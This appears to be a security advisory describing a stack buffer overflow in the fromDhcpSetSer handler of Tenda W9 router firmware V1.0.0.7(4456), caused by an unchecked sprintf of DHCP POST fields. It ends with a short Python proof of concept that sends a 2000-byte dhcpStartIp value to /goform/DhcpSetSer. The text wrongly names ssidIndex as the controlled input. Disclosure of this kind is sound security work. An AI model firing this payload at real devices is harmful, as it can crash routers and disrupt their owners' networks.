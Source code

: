 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2986.html

## Affected version

W9 V1.0.0.7(4456)

## Vulnerability details

In the W9 V1.0.0.7(4456) firmware has a stack overflow vulnerability in the `fromDhcpSetSer` function. The `dips, dipe, dhcps_gw, dhcps_mask, dhlt, dns1, dns2` variable receives the `dhcpStartIp, dhcpEndIp, dhcpGw, dhcpMask, dhcpLeaseTime, dhcpDns1, dhcpDns2` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(dhcpscfg, "%s;%s;%s;%s;%s;%s;%s;%s;%s", enable, "br0", dips, dipe, dhcps_gw, dhcps_mask, dhlt, dns1, dns2);` can cause a buffer overflow. The user-provided  `dhcpStartIp, dhcpEndIp, dhcpGw, dhcpMask, dhcpLeaseTime, dhcpDns1, dhcpDns2` can exceed the capacity of the `dhcpscfg` array, triggering this security vulnerability.

![image-20240419163146829](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163146829.png)

![image-20240419163135430](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163135430.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpSetSer"
payload = b"a"*2000

data = {"dhcpStartIp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
